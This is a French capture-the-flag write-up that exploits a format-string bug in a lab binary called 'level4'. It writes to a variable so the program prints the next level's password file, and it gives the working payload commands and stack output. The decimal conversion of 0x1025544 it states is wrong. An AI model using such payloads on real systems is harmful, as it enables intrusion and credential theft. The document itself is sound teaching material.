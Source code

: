 ### README - Exploitation du programme `level4`

## Introduction

Nous avons un exécutable `level4` avec les options suivantes :

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

### Code source décompilé

Voici le code source décompilé du programme `level4` :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Analyse de la vulnérabilité

La fonction `p` utilise `printf` avec un argument utilisateur sans spécificateur de format, ce qui est vulnérable à une attaque par chaîne de format. La condition pour exécuter la commande `system` est que la variable `m` soit égale à `0x1025544`.

### Identification de la position de l'argument

Pour exploiter la vulnérabilité, nous devons trouver la position de notre chaîne injectée dans les arguments de `printf`.

1. **Utilisation d'une chaîne de format exploratoire pour afficher les valeurs sur la pile** :

   ```bash
   python -c 'print "AAAA" + " %x" * 20' | ./level4
   ```

2. **Analyse de la sortie** :

   ```
   AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
   ```

   Nous voyons `0x41414141` (qui représente "AAAA" en ASCII) à la 12ème position dans la sortie. Cela signifie que notre chaîne injectée est le 12ème argument de `printf`.

### Construction du payload

Nous devons construire un payload qui écrit `0x1025544` (16850436 en décimal) à l'adresse de la variable `m`.

1. **Inclure l'adresse de `m` en format little-endian** :

   ```bash
   python -c 'print("\x10\x98\x04\x08")' > /tmp/exploit
   ```

2. **Ajouter la chaîne de format pour écrire `0x1025544`** :

   ```bash
   echo -ne "%016930112x%12\$n" >> /tmp/exploit
   ```

### Exécution du payload

Pour exploiter le programme `level4` :

```bash
cat /tmp/exploit - | ./level4
```

### Vérification

Après l'exploitation, le programme devrait afficher le contenu de `/home/user/level5/.pass`.

## Déroulement complet

### 1. Identification de la position de l'argument

```bash
python -c 'print "AAAA" + " %x" * 20' | ./level4
```

Sortie :

```
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

### 2. Construction du payload

#### a. Générer la partie initiale du payload

```bash
python -c 'print("\x10\x98\x04\x08")' > /tmp/exploit
```

#### b. Ajouter la chaîne de format

```bash
echo -ne "%016930112x%12\$n" >> /tmp/exploit
```

### 3. Exécution du payload

```bash
cat /tmp/exploit - | ./level4
```

### Conclusion

En utilisant cette approche, nous avons exploité la vulnérabilité de chaîne de format pour modifier la variable `m` et déclencher la condition qui exécute la commande système pour afficher le contenu de `/home/user/level5/.pass`.

### Code source décompilé pour explication

Voici à nouveau le code source décompilé pour une explication plus claire :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Explication

- **`fgets`** : Lit l'entrée utilisateur dans un buffer.
- **`printf`** : Affiche le buffer sans spécificateur de format, rendant le programme vulnérable aux attaques de chaîne de format.
- **Condition sur `m`** : Si `m` vaut `0x1025544`, le programme exécute `system("/bin/cat /home/user/level5/.pass")`.

En utilisant la vulnérabilité de chaîne de format, nous avons écrit `0x1025544` à l'adresse de `m` pour satisfaire cette condition et obtenir le mot de passe pour le niveau suivant.